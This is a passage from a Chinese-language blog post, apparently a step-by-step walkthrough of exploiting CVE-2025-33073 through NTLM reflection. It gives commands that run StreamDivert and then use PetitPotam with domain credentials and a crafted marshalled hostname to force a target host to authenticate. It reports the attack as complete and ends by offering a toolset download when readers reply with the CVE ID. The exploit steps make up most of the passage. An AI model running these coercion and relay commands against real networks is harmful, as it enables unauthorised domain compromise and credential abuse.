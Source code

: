 
```
shell StreamDivert.exe config.txt
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElT7EdNQ1uYmNjnfeDgV2cZUJYHSmjc4ibib1oKo7nQ2Y2SIwCG21iaqQBg/640?wx_fmt=png&from=appmsg "")  
  
6.   
强制目标主机发起 NTLM 认证。  

```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El5omDmUWIhOEP9uPibfBtvkeHfWyNk5tEYBdOiawhibCTn6xDibSOKwcumQ/640?wx_fmt=png&from=appmsg "")  
  
7.   
攻击完成。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2EljPh2GDQnJ6pmUcObLoxnrU8ZyWvtzW8VzozwicMwL46tQiaNP4JrnTEA/640?wx_fmt=png&from=appmsg "")  
  
0x04   
Windows 端口占用问题  
  
  
参考资料  
  
跟前面差不多，就不赘述了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElG9dDVFvaPEjG0fXuc7sjnicoicslXqhoTwnW3uvkwpYa2mBwYGSVeIoA/640?wx_fmt=png&from=appmsg "")  
  
参考链接  
  

```
https://mp.weixin.qq.com/s/NrGyltW-f8a3Zqr0-4oYnw
```

  
  
  
*  
  
后台回复“CVE-2025-33073”获得工具集下载地址  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/rA9dDxDOarQvwxWqIZkXL6ibTEBOB4hNhtuJcQcLM3f3VKllE3RmlNIx2Tz5Djg4yptIxV5ibhUgDNEvFW6GZfQQ/640?wx_fmt=jpeg "")  
  
  
  
  
